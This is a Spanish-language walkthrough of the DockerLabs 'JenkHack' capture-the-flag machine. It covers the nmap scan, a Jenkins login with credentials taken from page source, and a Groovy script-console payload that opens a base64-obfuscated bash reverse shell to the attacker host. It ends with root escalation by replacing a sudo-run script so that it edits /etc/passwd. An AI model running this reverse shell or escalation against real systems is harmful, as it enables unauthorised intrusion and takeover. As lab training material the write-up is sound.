





Máquina "JenkHack" de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Fácil



# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oG escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Thu Sep  5 13:57:51 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-09-05 13:57:52 -03 for 15s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  REASON         VERSION
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Hacker Nexus - jenkhack.hl
443/tcp  open  ssl/http syn-ack ttl 64 Jetty 10.0.13
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Issuer: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-09-01T12:00:45
| Not valid after:  2025-09-01T12:00:45
| MD5:   ca28:f274:9396:ea58:166b:e855:d80a:f8f7
| SHA-1: e8d7:abe6:d118:714a:1b6f:0b76:6811:055c:b16a:1d87
| -----BEGIN CERTIFICATE-----
| MIIDazCCAlOgAwIBAgIUBSmiF+Gc+BiN8WyNFzgeUmymIWgwDQYJKoZIhvcNAQEL
| BQAwRTELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUxITAfBgNVBAoM
| GEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDAeFw0yNDA5MDExMjAwNDVaFw0yNTA5
| MDExMjAwNDVaMEUxCzAJBgNVBAYTAkFVMRMwEQYDVQQIDApTb21lLVN0YXRlMSEw
| HwYDVQQKDBhJbnRlcm5ldCBXaWRnaXRzIFB0eSBMdGQwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQCbdR8hWd693nt7C0ktew9VEHWerAmkRUNoUf2FJML3
| dew4Nl3Cn8nBCshRmqmrNBplc275t1MdQcsKJKxDPqXyNfNy0tX9DEa4outbJb19
| Y1hzIbfGGyTi7uxphIR46UUOx9vEUZeyoxLVifBHxY962ZwkRGnTMFCsiOJFTg7L
| +1J3V+FW6OLLN5cHhD+GzVfoglOXsKwzsGLNjTlBbqEaVFMnNo83nCCP/ZKMXiXe
| Rsld959G1NZZSV9GEX5s3e4iW9FvWxII1zamUiehkgf5SPJ6rLV5/hxzx3uAJzL7
| Ur1TV2HTqMfsSdG6uFd5WWAgcTxiIRu0liuxJxg08HPhAgMBAAGjUzBRMB0GA1Ud
| DgQWBBRcV7ZdtrWbCXIS+WBD2yRIwWWvADAfBgNVHSMEGDAWgBRcV7ZdtrWbCXIS
| +WBD2yRIwWWvADAPBgNVHRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQBc
| i803xq4wpjHJ+U/7xCRJB5Jia47VpRB6JeKMpxvRIDHxHkJDngEQ2eu+CsG/+TDP
| s/1/dgYsJJsOHG9xM9rFfmaVM7JPn9iuRlfg93pVn7jRcuuoFUGVGFQUwOCGFX2d
| +qq5Q+kQZZVNGkuNo0u/xhTE2Rr8bS0uOpaYqnfAFW3vVi8bh4/W81gjzTHCE9to
| B7zJSYXqsekAp381jRBUnz2XMjEpl0cVOHn+TwCVlKLUh+ZuP47D3A87iGjErrji
| woSNfGhH5GkXLQIm8kTEm8CgKcyLus9UuDn53mX8PB85LRjfGZ9ZNR56SfhFqCcs
| aKJxfwi0qS+3MP0YOEFZ
|_-----END CERTIFICATE-----
|_http-server-header: Jetty(10.0.13)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
8080/tcp open  http     syn-ack ttl 64 Jetty 10.0.13
|_http-server-header: Jetty(10.0.13)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  5 13:58:07 2024 -- 1 IP address (1 host up) scanned in 16.34 seconds
```

Como vemos está abierto el puerto `80, 443 y 8080`.

Ahora continuaremos por el navegador al puerto 80:



No tiene nada interesante por lo que continuaremos al 8080:



Tenemos un jenkins.

Si intentamos las credenciales comunes como `admin:admin` o `root:root` no tendremos acceso, por lo que buscaremos algún usuario y contraseña.

Luego de revisar el codigo fuente de la página en el puerto 80, encuentro dos palabras que parecen ser usuarios y al probarlas como usuario y contraseña en el puerto 8080, podemos entrar:

```css
alt="jenkins-admin">
alt="cassandra">
```

`jenkins-admin:cassandra`.

# INTRUSION

Estando dentro del jenkins, iremos a `/script`, esto nos llevará a una script conosole que nos permitirá ejecutar comandos. Para enviarnos una reverse shell, debemos ejecutar esto:

```groovy
def cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYxCg==}|{base64,-d}|{bash,-i}"
def process = cmd.execute()
process.waitFor()
```

Esto nos enviará una reverse shell por el puerto 443, por lo que antes de ejecutarla escucharemos en ese puerto:

```css
sudo nc -nlvp 443
```

una vez estemos escuchando en ese puerto, ejecutamos el comando en la página y **ganaremos acceso.**

# ESCALADA DE PRIVILEGIOS

### jenkins

Como nos hemos entrado mediante una reverse shell, tendremos que hacer el `tratamiento de la tty`:

```css
script /dev/null -c bash # Lo ejecutamos y luego presionamos ctrl+Z
stty raw -echo;fg # Lo ejecutamos y luego escribimos "reset xterm" y enter
export TERM=xterm && export SHELL=bash
```

Ahora si que no se nos cerrará la conexión y estaremos cómodos.

Si leemos el archivo `/etc/passwd`, veremos un usuario llamado "jenkhack".

Si buscamos algún archivo con ese nombre, encontraremos una carpeta que tiene una nota. Para buscar ejecutamos `find / -name "jenkhack" 2>/dev/null`. Si la leemos vemos esto:

```
jenkhack:C1V9uBl8!'Ci*`uDfP
```

Como vemos la contraseña no está en un formato legible, por lo que iremos a [CyberChef](https://gchq.github.io/CyberChef/), y luego de probar, podemos pasarlo a texto con `base85`:



Ahora escalamos poniendo `su jenkhack` y la contraseña.

### Jenkhack

Ahora si ejecutamos un `sudo -l`, veremos esto:

```css
Matching Defaults entries for jenkhack on 36d30cf5e4f4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jenkhack may run the following commands on 36d30cf5e4f4:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash
```

Pero si probamos a ejecutarlo solo nos muestra un mensaje, lo que significa que no es realmente bash sino un script. Al leerlo podemos ver esto en una parte:

```css
Running command.../opt/bash.sh
```

Por lo que vamos a `/opt/` pero ya hay un archivo llamado así, por lo que lo borramos con `rm bash.sh` y creamos otro con el siguiente contenido:

```css
#!/bin/bash

nano /etc/passwd
```

Esto nos dejará modificar el `/etc/passwd` cuando ejecutemos el script con sudo, y ya nos quedariá borrar la "x" de root y escalar con `su`



Gracias por leer.